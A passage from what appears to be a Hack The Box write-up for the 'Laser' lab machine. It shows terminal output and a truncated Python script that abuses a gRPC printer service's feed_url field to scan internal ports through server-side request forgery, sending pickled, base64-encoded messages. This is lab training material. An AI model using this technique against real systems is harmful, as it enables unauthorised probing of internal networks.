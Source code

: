 ```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ python3 grpc_client.py
Exception calling application: (6, 'Could not resolve host: printer.laserinternal.htb')
```

After redirecting the target to be the internal machine I got an error message with a new hostname.  I added this to my `/etc/hosts` file.  Sending the traffic to this hostname did not resolve my connection errors.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ ping printer.laserinternal.htb               
PING printer.laserinternal.htb (10.10.10.201) 56(84) bytes of data.
64 bytes from printer.laserinternal.htb (10.10.10.201): icmp_seq=1 ttl=63 time=40.9 ms
64 bytes from printer.laserinternal.htb (10.10.10.201): icmp_seq=2 ttl=63 time=41.6 ms
^C
--- printer.laserinternal.htb ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 40.902/41.234/41.566/0.332 ms
```

I was able to ping the machine using that hostname, so my connectivity wasn't the problem.

### Python port scanner - internal machine

I decided that there may possibly be an internal port open that I couldn't reach, therefore the errors. I needed some way of enumerating the inside.  Since I knew that a closed port gave a "Connection refused error" I was able to use this to filter responses.

* [https://www.kite.com/python/answers/how-to-get-the-value-of-an-exception-as-a-string-in-python](https://www.kite.com/python/answers/how-to-get-the-value-of-an-exception-as-a-string-in-python) 
* [https://www.geeksforgeeks.org/port-scanner-using-python/](https://www.geeksforgeeks.org/port-scanner-using-python/)

```python
import laser_pb2_grpc
import laser_pb2
import grpc
import base64
import pickle


def scan():
    #Run the below code for all 65535 ports (minus 0)
    for port in range(1,65535):
        print(f"Trying port: {port}", end ='\r', flush = True)

        #Use insecure channel since we do not have credentials
        channel = grpc.insecure_channel('printer.laserinternal.htb:9000')
        stub = laser_pb2_grpc.PrintStub(channel)

        #Testing to see if there are more ports open on the internal localhost using same message
        message = '{' + '"version": "v1.0", "title": "Printer Feed", ' + f'"feed_url": "http://localhost:{port}"' + '}'
        #print(f"Message sent is {message}")
        enc_message = base64.b64encode(pickle.dumps(message))
        content = laser_pb2.Content(data=enc_message)
        try:
            response = stub.Feed(content)

            #Print the ports that respond to our connection, along with the message
            print(f"Port {port} open!")
            print(f"Connection received on port: {port}",response)
            print("")
            #print(str(response))

```